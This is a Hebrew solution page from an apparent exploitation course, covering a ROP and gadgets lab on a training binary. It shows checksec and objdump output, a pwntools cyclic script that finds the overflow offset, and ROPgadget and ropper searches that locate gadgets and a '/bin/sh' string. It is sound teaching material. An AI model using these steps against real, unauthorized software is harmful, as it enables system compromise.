

repository: AmitPinchasi/amittech · page: מחקר-חולשות/4 - עקיפת NX וROP בסיסי/4.3 - ROP וגאדג'טים/4.3 - ROP וגאדג'טים - פתרון/index.html · generator: mkdocs

## פתרון - ROP וגאדג'טים

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. הכתובות בפלט הן דוגמה בלבד; בין גרסאות מהדר הן משתנות מעט, אז תמיד שלפו את הכתובות מהבינארי שלכם ואל תעתיקו עיוור.

### פתרון תרגיל 1 - סיור והכנה

בדיקת ההגנות:

```bash
$ checksec --file=./rop_lab
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

בדיוק מה שרצינו: NX פעיל (לכן ROP), אין canary, אין PIE (כתובות קבועות).

מציאת הכתובות:

```bash
$ objdump -d rop_lab | grep '<secret>:'
0000000000401196 <secret>:

$ objdump -d rop_lab | grep '<system@plt>:'
0000000000401060 <system@plt>:

$ ROPgadget --binary rop_lab --string '/bin/sh'
0x0000000000402008 : /bin/sh
```

מציאת ה-offset עם cyclic:

```python
from pwn import *
context.binary = ELF('./rop_lab')

p = process('./rop_lab')
p.sendline(cyclic(200))
p.wait()

core  = p.corefile
fault = core.read(core.rsp, 8)      # what was on top of the stack at ret
log.info('offset = %d', cyclic_find(fault))
```

עבור `rop_lab` (buffer 64 + saved rbp 8) יוצא offset של 72. אם אצלכם יצא ערך אחר, זה בגלל padding alignment של המהדר - השתמשו בערך שמדדתם. הלקח החוזר: מפה לפני שתוקפים.

### פתרון תרגיל 2 - מציאת גאדג'טים

שלוש הדרכים, ואותה תוצאה:

```bash
$ ROPgadget --binary rop_lab | grep 'pop rdi ; ret'
0x0000000000401256 : pop rdi ; ret

$ ropper --file rop_lab --search "pop rdi; ret"
[INFO] File: rop_lab
0x0000000000401256: pop rdi; ret;

$ ROPgadget --binary rop_lab | grep ': ret$'
0x000000000040101a : ret
```

ומתוך python:

```python
from pwn import *
rop = ROP(ELF('./rop_lab'))
print(hex(rop.find_gadget(['pop rdi', 'ret'])[0]))   # 0x401256
print(hex(rop.find_gadget(['ret'])[0]))              # 0x40101a
```

שלושתם מסכימים על `0x401256` ל-`pop rdi ; ret` ועל `0x40101a` ל-`ret` בודד. למה זה עבד: הכלים סורקים את אותם בתים באותו מקטע `.text`, אז ההסכמה מובטחת. איך להכליל: כדאי להכיר את שלושתם כי בגאדג'טים מסובכים לפעמים אחד מציג יפה יותר מהשני.
